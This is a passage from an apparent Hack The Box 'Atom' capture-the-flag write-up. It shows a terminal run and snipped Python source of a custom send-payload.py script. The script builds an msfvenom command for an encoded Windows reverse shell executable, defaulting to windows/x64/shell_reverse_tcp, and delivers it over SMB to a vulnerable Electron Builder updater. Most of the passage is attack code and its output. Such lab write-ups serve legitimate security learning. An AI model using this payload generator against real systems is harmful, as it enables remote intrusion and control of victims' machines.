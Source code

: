 Here we see it working:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ python3 send-payload.py a p --lip i --dir to-serve
IP Address: i
Directory not found - creating directory
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ ls -la
total 252
drwxr-xr-x  9 mac mac  4096 May 28 20:18  .
drwxr-xr-x 30 mac mac  4096 May 24 20:26  ..
drwxr-xr-x  2 mac mac  4096 May 28 20:18  to-serve
```

Now we can try appending the directory to our `msfvenom` command and see what the command will look like before running it:

```python
def gen_payload(ip, port, payload, dir):
    """generate an msfvenom payload with given IP address and port"""

    cmd_str = 'msfvenom -a x86 --platform windows -p ' + payload + ' LHOST=' + str(ip) + ' LPORT=' + str(port) + ' -e x86/shikata_ga_nai -f exe -o ' + dir + '"heedv1\'Setup1.0.1.exe"'

    print(cmd_str)
	
...[snip]...

def main():
    parser = argparse.ArgumentParser(prog="send-payload.py", description="Sends a payload to a vulnerable Electron Builder instance over SMB. If no port is provided, listens on port 9001 by default. No default option for IP address is specified.")

    ...[snip]...

    #parse arguments
    args = parser.parse_args()

    #default values
    path = ""
    port = "9001"
    payload = "windows/x64/shell_reverse_tcp"

    ...[snip]...

    #get port
    arg_port = args.lport
    if arg_port is not None:
        port = arg_port

    #mkdir if doesn't exist
    arg_path = args.dir
    if arg_path is not None:
        path = arg_path
        dirpath = Path(arg_path)

        if not dirpath.is_dir():
            print("Directory not found - creating directory")
            dirpath.mkdir()

    #get payload
    arg_payload = args.payload
    if arg_payload is not None:
        payload = arg_payload
```
